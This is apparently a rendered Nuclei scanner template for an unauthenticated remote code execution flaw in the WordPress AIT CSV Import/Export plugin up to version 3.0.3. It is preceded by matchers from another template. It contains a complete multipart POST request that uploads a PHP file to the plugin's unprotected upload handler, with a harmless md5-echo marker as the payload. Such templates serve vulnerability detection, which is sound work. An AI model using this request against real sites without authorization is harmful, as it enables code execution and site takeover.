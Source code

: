 ### Matchers

**Type - word**

- words
  1. Nuclei - Open source project (github.com/projectdiscovery/nuclei)
  2. PHP Version
  3. Configuration Command
- part - body
- condition - and

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---

# WordPress AIT CSV Import Export - Unauthenticated Remote Code Execution

## Description

- The AIT CSV Import/Export plugin \<= 3.0.3 allows unauthenticated remote attackers to upload and execute arbitrary PHP code. The upload-handler does not require authentication, nor validates the uploaded content.

- severity - critical
- tags - wp-plugin,rce,fileupload,unauth,wpscan,msf,wordpress,ait-csv,wp,intrusive

## Requests

### Step - 1

```
POST /wp-content/plugins/ait-csv-import-export/admin/upload-handler.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------ab360007dbae2de8

--------------------------ab360007dbae2de8
Content-Disposition: form-data; name="file"; filename="{{randstr}}.php"
Content-Type: application/octet-stream

sep=;<?php echo md5('ait-csv-import-export-rce');?>

--------------------------ab360007dbae2de8--

```

